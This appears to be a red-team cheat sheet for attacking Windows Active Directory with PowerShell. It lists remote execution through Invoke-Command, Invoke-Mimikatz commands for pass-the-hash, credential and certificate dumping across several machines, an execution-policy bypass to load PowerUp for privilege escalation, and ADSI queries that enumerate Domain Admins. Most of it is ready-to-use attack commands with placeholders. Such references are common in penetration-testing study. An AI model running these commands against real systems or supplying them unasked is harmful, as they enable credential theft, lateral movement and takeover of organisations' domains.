     - Perform command execution without dropping exe onto disk
    - Useful for passing and replying hashes, tickets and other AD attacks
  - Run commands: 
    - `Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName instance`
    - `Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content <list-of-servers>)`
  - Run scripts: 
    - `Invoke-Command -FilePath example.ps1 -ComputerName instance`
  - Run functions installed on the remote box: 
    - `Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName instance`
  - `Invoke-Command` doesn't create a session.
  - Stateful commands:
    ```powershell
    $sess = New-PSSession -ComputerName instance
    Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
    Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
    ```

## Tools

- Mimikatz (ReflectivePEInjection is used to load into memory)
  - Uses `ReflectivePEInjection` <https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/> to load mimikatz into memory
  - Pass the Hash
    ```
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:<name_of_the_user> /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
    ```
    ```
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator  /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
    ```
    ```
    Invoke-Mimikatz -DumpCreds
    Invoke-Mimikatz -DumpCerts
    ```

  - Dump Creds from multiple machines
    ```
    Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")
    ```
- Load PowerUp
    ```
    powershell -ExecutionPolicy Bypass
    Import-Module ./PowerUp.ps1
    Invoke-AllChecks
    ```

## Active Directory

- [ADSI]
  - Get member of the domain admin group: `([ADSI]"LDAP://cn=Domain Admin,cn=Users,dc=Example,dc=com").Members`
  - Get memberships of a user: `([ADSI]"LDAP://cn=Administrator,cn=Users,dc=Example,dc=com").MemberOf`
- .NET Class: `System.DirectoryServices.ActiveDirectory`
- Native Executable
- PowerShell (,Net classes or WMI or AD module)
